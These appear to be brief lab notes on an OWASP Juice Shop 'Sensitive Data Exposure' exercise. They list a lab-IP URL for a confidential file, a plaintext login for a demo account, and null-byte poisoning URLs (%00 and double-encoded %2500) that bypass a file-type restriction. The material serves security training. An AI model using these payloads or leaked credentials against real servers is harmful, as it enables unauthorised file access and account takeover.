






# AH! Don't look! 

OWASP TOP 10 - Sensitive Data Exposure

## Practical

### Confidential Document



http://10.10.46.205/ftp/legal.md



###  Login MC SafeSearch

`mc.safesearch@juice-sh.op:Mr. N00dles`



### Bypass file restriction with null byte

```
http://10.10.46.205/ftp/package.json.bak
```



Null-byte poisoning
```
http://10.10.46.205/ftp/package.json.bak%00.md
```



Null-byte poisoining with superflous url encode

```
10.10.46.205/ftp/package.json.bak%2500.md
```

`%25` = `%`  
`%00` = `null`
`%2500` => `%00` => `null` (terminated)  




[Common obstacles to exploiting file path traversal vulnerabilities](undefined)


